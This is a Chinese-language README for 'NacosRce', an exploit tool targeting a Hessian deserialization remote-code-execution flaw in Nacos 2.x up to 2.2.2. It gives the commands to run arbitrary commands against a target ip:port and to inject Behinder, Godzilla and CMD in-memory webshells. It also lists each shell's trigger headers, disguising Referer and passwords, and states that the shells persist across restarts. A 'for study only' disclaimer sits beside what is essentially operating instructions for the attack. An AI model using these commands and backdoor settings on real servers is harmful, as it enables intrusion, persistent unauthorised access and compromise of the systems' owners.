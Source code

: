 ## Nacos Hessian 反序列化漏洞利用工具 v0.4

```ini

  _   _                     ____          
 | \ | | __ _  ___ ___  ___|  _ \ ___ ___ 
 |  \| |/ _` |/ __/ _ \/ __| |_) / __/ _ \
 | |\  | (_| | (_| (_) \__ \  _ < (_|  __/
 |_| \_|\__,_|\___\___/|___/_| \_\___\___|
```
Author: 刨洞安全 && 凉风

**注意：工具仅供学习使用，请勿滥用，否则后果自负！**



**食用方式**

> 1. 执行无回显命令（不推荐，因为每次重启nacos都会自动执行一次）
>    `java -jar NacosRce.jar ip:port "command"`
>
> 2. 同时注入冰蝎&哥斯拉&CMD内存马（推荐，重启后自动注入内存马）
>    `java -jar NacosRce.jar ip:port memshell`
>
> 3. 如果nacos是windows的：
>    `java -jar NacosRce.jar ip:port memshell windows`

## 内存马说明

### 冰蝎内存马

> - 需要设置请求头x-client-data:rebeyond
>
> - 设置Referer:https://www.google.com/
>
> - 路径随意
>
> - 密码rebeyond
>

![img.png](img.png)

### 哥斯拉内存马

> - 需要设置请求头x-client-data:godzilla
> - 设置Referer:https://www.google.com/
> - 路径随意
> - 密码是pass 和 key
>

![img_1.png](img_1.png)

### CMD内存马

> - 需要设置请求头x-client-data:cmd
> - 设置Referer:https://www.google.com/
> - 请求头cmd:要执行的命令

![img_2.png](img_2.png)

## 更新日志

v0.4 版本实现了

> 1. 不出网漏洞利用
> 2. 可多次发起漏洞利用
> 3. 注入冰蝎/CMD内存马
> 4. 内存马对多版本进行了兼容
> 5. 修复windows的bug

**tips:**

> - 请用jdk1.8
> - 适用于 Nacos 2.x <= 2.2.2
> - 非集群的也能打哦
> - 此内存马重启nacos依然存活

项目地址：https://github.com/c0olw/NacosRce

## 参考文章

- [半自动化挖掘 request 实现多种中间件回显 - c0ny1](https://gv7.me/articles/2020/semi-automatic-mining-request-implements-multiple-middleware-echo/)
- [Nacos JRaft Hessian 反序列化分析 - p1g3](https://exp.ci/2023/06/14/Nacos-JRaft-Hessian-%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%88%86%E6%9E%90/)
- [Y4er/ysoserial](https://github.com/Y4er/ysoserial)

